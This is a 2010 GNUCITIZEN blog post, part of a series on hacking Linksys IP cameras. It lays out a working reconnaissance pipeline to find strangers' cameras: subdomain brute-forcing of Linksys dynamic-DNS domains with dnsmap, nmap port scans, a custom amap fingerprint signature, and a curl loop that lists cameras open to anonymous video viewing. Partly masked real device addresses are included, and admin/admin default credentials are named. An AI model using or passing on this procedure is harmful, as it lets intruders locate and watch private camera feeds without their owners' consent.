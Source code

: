 ```yaml
---
title: Hacking Linksys IP Cameras (pt 6)
author: pagvac
date: Wed, 24 Feb 2010 07:18:29 GMT
template: post.jade
category: fucked
---
```


> This article is a continuation of the following GNUCITIZEN articles: [here](/blog/hacking-linksys-ip-cameras-pt-1/), [here](/blog/hacking-linksys-ip-cameras-pt-2/), [here](/blog/hacking-linksys-ip-cameras-pt-3/), [here](/blog/hacking-linksys-ip-cameras-pt-4/) and [here](/blog/hacking-linksys-ip-cameras-pt-5/).

As we know, there are several ways one could go about hunting for IP cameras on the net. The slowest way would be to portscan random IP addresses for certain ports and programmatically detect if the web interface of a given camera was available on the open ports found. This method definitely works, but it can be very time consuming as it consists of scanning random IP addresses hoping that we'll eventually come across the type of device we're interested in.

The second method, which would be much faster in finding our target devices, would be to use a [search engine](http://www.google.co.uk/search?ie=UTF-8&q=inurl:/img/vr.htm) and query content that is unique to our target devices (e.g.: URLs, HTML title). This method, popularized by [GHDB](http://www.hackersforcharity.org/ghdb/?function=summary&cat=18) is simple and effective. The only issue I find with this strategy is that many of these IP cameras found happen to respond very slowly. This is probably due to other curious individuals running the same searches and accessing the same cameras.

The third method which would allow you to find more hidden Linksys IP cameras (i.e.: not cached by search engines a.k.a. the [hidden web](http://www.ericdigests.org/2002-2/hidden.htm)), would consist of bruteforcing subdomains within dynamic domain names (DDNS) used by our target devices (Linksys IP cameras in this case). For instance, the following are some of the dynamic domain names supported by the WVC54GCA and WVC80N Linksys IP camera models:

* `linksys-cam.com`
* `mylinksyscamera.com`
* `mylinksyshome.com`
* `mylinksyscam.com`
* `mylinksysview.com`
* `linksysremotecam.com`
* `linksysremoteview.com`
* `linksyshomemonitor.com`

### Camera discovery process through subdomain bruteforcing

We first save the aforementioned domains in a file, `doms` in this case. Then we use [dnsmap](http://code.google.com/p/dnsmap/) to bruteforce subdomains for each of the domains included in `doms`.

Using dnsmap's built-in wordlist:

    $ for i in `cat doms`;do dnsmap $i -r ~/ -i 64.14.13.199,216.39.81.84&done;

Using a user-supplied wordlist, `wordlist_TLAs.txt` in this case, which is a three-letter acronym wordlist included with dnsmap v0.30:

    $ for i in `cat doms`;do dnsmap $i -w wordlist_TLAs.txt -r ~/ -i 64.14.13.199,216.39.81.84&done;

NOTE: dnsmap's `-i` option allows ignoring user-supplied IP addresses from the results. In this case, 64.14.13.199 and 216.39.81.84 belong to the [DDNS service provider](http://www.tzo.com/), and would therefore be regarded as false positives in this case (we're only interested in IP cameras setup by their respective owners after all). For more info on how to use dnsmap, checkout the [README](http://code.google.com/p/dnsmap/source/browse/trunk/README.txt) file.

We then parse the IP addresses of the subdomains discovered by dnsmap:

    $ grep \# dnsmap*.txt | awk '{print $4}' | sort | uniq > ips.txt

Next, we scan for ports that could potentially be used by a Linksys IP camera web server. In this case, we choose TCP ports 80, 1024 and 1025 as candidates:

    $ sudo nmap -v -T4 -n -P0 -sS -p80,1024,1025 -iL ips.txt -oA nmap_http_ports.`date +%Y-%m-%d-%H%M%S`

This leaves us with a lot of discovered services, but we don't quite yet know which of them correspond to actual Linksys IP cameras web interfaces. There are many ways to fingreprint the web server of a Linksys IP camera. In this case we chose to create our own [amap](http://freeworld.thc.org/thc-amap/) response signature, and then scan the open ports with amap.

Before amap is capable of identifying our target Linksys IP cams, the following response signature needs to be added to `appdefs.resp`, and amap then needs to be recompiled. Otherwise amap won't take the new signature into account:

    http-linksys-cam::tcp::^HTTP/.*\nServer: thttpd/.*Accept-Ranges: bytes.*WVC

Please note that the previous amap response signature was only tested against the WVC54GCA and WVC80N Linksys IP camera models. So I'm not sure if it will work against other models. You've been warned!

Once recompiled, amap can be used to identify Linksys IP cameras from nmap's open ports results. 

    $ amap -i nmap_http_ports.2010-02-22-102001.gnmap -R -S -o amap_results.`date +%Y-%m-%d-%H%M%S`

We finally parse the IP addresses and open ports for all discovered Linksys IP cameras:

    $ grep http-linksys-cam amap_results.2010-02-22-102253 | awk '{print $3}' | cut -d \/ -f1
    x.x.167.245:1024
    x.x.228.231:1025
    x.x.228.231:80
    x.x.64.22:80
    x.x.206.70:1024
    x.x.31.4:1024
    x.x.164.28:1024
    _[snip]_

At this point we have accomplished the task of creating a list of Linksys IP cameras without resorting to search engines or scanning random IP addresses. In order to discover more Linksys cameras, a more comprehensive wordlist would need to be used with dnsmap.

Of course, even further automation would be possible. For instance, an attacker may wish to programmatically identify which Linksys cameras from the previous list allowing video viewing to unauthenticated users:

```bash
$ amapfile=amap_results.2010-02-22-102253; for i in `grep http-linksys-cam $amapfile | awk '{print $3}' | cut -d \/ -f1`;do url="http://$i/img/main.cgi?next_file=main.htm"; if curl --connect-timeout 2 -s -I --url $url | grep ^"HTTP/1.1 501">/dev/null;then echo $url;fi;done;
x.x.206.70:1024/img/main.cgi?next_file=main.htm
x.x.105.221:1024/img/main.cgi?next_file=main.htm
x.x.105.221:80/img/main.cgi?next_file=main.htm
x.x.181.195:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1024/img/main.cgi?next_file=main.htm
x.x.243.154:1025/img/main.cgi?next_file=main.htm
x.x.30.196:1025/img/main.cgi?next_file=main.htm
_[snip]_
```

_In addition to automatically checking for anonymous video viewing on all cameras found, other tasks such as checking for default credentials (`admin`/`admin`) could also be scripted, although this will NOT be included in this post (or any other at GNUCITIZEN)._
